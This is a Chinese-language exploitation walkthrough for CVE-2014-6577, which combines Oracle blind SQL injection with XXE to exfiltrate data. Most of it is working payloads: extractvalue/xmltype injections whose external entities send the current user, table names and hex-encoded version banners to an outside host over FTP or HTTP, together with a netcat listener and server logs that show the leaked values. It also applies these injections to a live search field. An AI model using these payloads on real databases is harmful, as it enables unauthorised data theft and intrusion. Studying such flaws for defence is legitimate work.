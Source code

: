 # Oracle盲注结合XXE漏洞远程获取数据

0x00 前言
=====

想必大家对SQL注入已经耳熟能详，对XML实体注入（简称XXE）也有所了解。本文主要讨论了一种在存在ORACLE盲注的情况下远程获取数据的方式。其实和UTL_HTTP远程获取的方法差不多，只不过原理不同。

0x01 漏洞简析
=====

CVE-2014-6577，是Oracle在今年年初修补的XXE漏洞，已知受影响的范围：

11.2.0.3, 11.2.0.4, 12.1.0.1, 12.1.0.2，不排除那些已不受oracle支持的版本也存在此漏洞。攻击者可以通过利用构造SQL语句来触发XML解释器发送一个HTTP或者FTP请求，从而带来以下可能的威胁。

*   数据泄露
*   SSRF
*   端口扫描
*   拒绝服务攻击。

等等……

0x02 漏洞利用
=====

文献中给出的一个利用POC：

在远程主机上用nc监听21端口，当有连接后，输入220

```
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "ftp://'||user||':bar@11.11.11.11/test"> %remote; %param1;]>'),'/l') from dual;

```

and

```
[root@localhost httpd]# busybox nc -vvlp 21
listening on [::]:21 ...
connect to [::ffff:11.11.11.11]:21 from [::ffff:22.22.22.22]:37040 ([::ffff: 22.22.22.22]:37040)
220
USER XXXX _WEB_ XXXX
220
PASS bar
^Csent 8, rcvd 33
punt!

```

在断开连接的同时，ORACLE会报以下错误

将把给出的POC变形，ftp请求换成http，

```
ORA-31000: 资源 'ftp://XXXX_WEB_XXXX:bar@11.11.11.11/test' 不是 XDB 方案文档     

ORA-06512: 在 "SYS.XMLTYPE", line 310     

ORA-06512: 在 line 1
…………

```

and

```
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11.11.11.11/'||user||'"> %remote; %param1;]>'),'/l') from dual

```

这样不用启动nc或者ftp服务端即可在http日志中收到请求:

```
22.22.22.22  - - [27/Apr/2015:07:56:53 -0400] "GET /XXXX_WEB_XXXX  HTTP/1.0" 404 294 "-" "-"

```

0x03 漏洞实战
=====

某个搜索功能存在SQL注入漏洞

可以判断存在盲注，而且数据库基本能确定为oracle

```
XXX%'and 233=233 '%'='              页面正常
XXX%'and 233=2333 '%'='             页面无结果
XXX%'and 1=(select 1 from dual) '%'='   页面正常

```

构造如下语句 服务器收到如下请求：

```
XXX%'and 1=(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11.11.11.11/'||(SELECT TABLE_NAME FROM (SELECT ROWNUM AS R,TABLE_NAME FROM USER_TABLES) WHERE R=1)||'"> %remote; %param1;]>'),'/l') from dual) and '%'='

```

and

```
22.22.22.22 - - [27/Apr/2015:22:00:46 -0400] "GET /EC_COMP_BINARY_INFO HTTP/1.0" 404 297 "-" "-"

```

还可以这么构造，一次返回数条结果

服务器收到如下请求：

对于结果中带空白符或者其他特殊符号的，在此处Oracle并不会自动URL编码，所以为了顺利的获得数据可以用oracle的自带函数utl_raw.cast_to_raw()将结果转换为HEX。

```
22.22.22.22 - - [27/Apr/2015:23:12:01 -0400] "GET /EC_COMP_BINARY_INFO////EC_COMP_BINARY_MAPPING HTTP/1.0" 404 323 "-" "-"

```

and

```
XXX%'and 1=(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11.11.11.11/'||(SELECT utl_raw.cast_to_raw(BANNER) FROM (SELECT ROWNUM AS R,BANNER FROM v$version) WHERE R=1)||'////'||(SELECT utl_raw.cast_to_raw(BANNER) FROM (SELECT ROWNUM AS R,BANNER FROM v$version) WHERE R=2)||'"> %remote; %param1;]>'),'/l') from dual) and '%'='

```

收到的请求：

经过HEX解码可得

```
/Oracle Database 11g Enterprise Edition Release 11.2.0.2.0 - 64bit Production////PL/SQL Release 11.2.0.2.0 - Production

22.22.22.22 - - [28/Apr/2015:03:50:16 -0400] "GET /4F7261636C652044617461626173652031316720456E74657270726973652045646974696F6E2052656C656173652031312E322E302E322E30202D2036346269742050726F64756374696F6E////504C2F53514C2052656C656173652031312E322E302E322E30202D2050726F64756374696F6E HTTP/1.0" 404 510 "-" "-"

```

参考文献：
=====

https://blog.netspi.com/advisory-xxe-injection-oracle-database-cve-2014-6577/